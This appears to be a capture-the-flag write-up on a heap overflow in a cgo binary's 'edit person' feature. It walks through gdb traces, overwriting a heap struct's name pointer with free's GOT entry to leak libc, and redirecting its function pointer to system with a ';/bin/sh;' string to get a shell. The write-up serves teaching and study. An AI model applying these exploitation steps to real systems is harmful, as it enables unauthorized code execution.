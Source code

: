 ```
Creating a new person...
[Switching to Thread 0xf7dde700 (LWP 12627)]
malloc(12)          #_cgo_df1ab1e22195_Cfunc_createPerson ()
= 0x81a8008
Enter name length: 1337
malloc(1337)          #x_cgo_malloc ()
= 0x81a81e0
Enter person's name: NAME              
Enter person's age: 12

// I couldn't seem to silence the output of the "finish" command, hence the weird x_cgo...
```

### Plunder.py
With these debug hooks, you can just explore the binary. Within no time, it's very easy to identify the exploit (maybe I could have done static analysis and found it but nvm lol). When you edit an entry, no call to `malloc` or `free` is made, even when you specify a larger size. This could mean that `realloc` is called, OR that it does not care about the old size. It turned out to be the latter so it's a heap overflow vulnerability.
```
Editting a person...
Enter person's index (0-based): 0
Enter new name length: 133700	# original chunk is size 1337
Enter the new name: OVERFLOW
```
If you noticed earlier when "Creating a new person", a `malloc(12)` call is made. This indicates that there is some metadata for a person saved on the stack, probably a pointer to the name. Just set the age to an easily searchable size like 0xdeadbeef, and search for that value in gdb. Exploitation becomes very obvious and easy after this point, as the person metadata looks like this.
```
0x081a8008│+0x0000: 0x080ebb10  →  <printPerson+0> push esi
0x081a800c│+0x0004: 0x081a81e0  →  "NAME"
0x081a8010│+0x0008: 0xdeadbeef
```
We have a function pointer and a string pointer in the heap, we can just overwrite these with our heap overflow and perform the usual, leak libc -> system("/bin/sh") exploit sequence. 
```
0x081a8008│+0x0000: 0x080ebb10  →  <printPerson+0> push esi
0x081a800c│+0x0004: 0x08191028  →  0xf7e4e470  →  <free+0> push ebx
0x081a8010│+0x0008: 0xdeadbeef
```
By overwriting the name pointer with the GOT address of free, we leak a libc address when we print a person with option 3. We can thus calculate the base address of libc from this leak.
```
0x081a8008│+0x0004: 0xf7e10940  →  <system+0> sub esp, 0xc
0x081a800c│+0x0008: ";/bin/sh;"
0x081a8010│+0x000c: "n/sh;"
```
Now we can pop a shell by setting up a person like this. This will result in the binary calling `system("\x40\x09\xe1\xf7;/bin/sh;")` when you print the person. Although the first part is not a proper shell command, it will end at the semicolon and our proper "/bin/sh" execution will run.
